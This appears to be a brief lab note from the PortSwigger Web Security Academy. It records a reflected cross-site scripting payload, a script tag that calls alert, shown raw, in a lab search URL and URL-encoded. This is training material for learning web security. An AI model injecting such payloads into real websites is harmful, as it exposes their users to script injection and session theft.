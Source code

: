 ## PAYLOAD USED 
'"><script>alert('XSS by Ranjan')</script>'

## UNCOADED PAYLOAD 
'https://0a7a00f90366b4d980ed03bd00ff0007.web-security-academy.net/?search="><script>alert('XSS by Ranjan')</script>'

## ENCOADED PAYLOAD 
'https://0a7a00f90366b4d980ed03bd00ff0007.web-security-academy.net/?search=%22%3E%3Cscript%3Ealert('XSS%20by%20Ranjan')%3C%2Fscript%3E


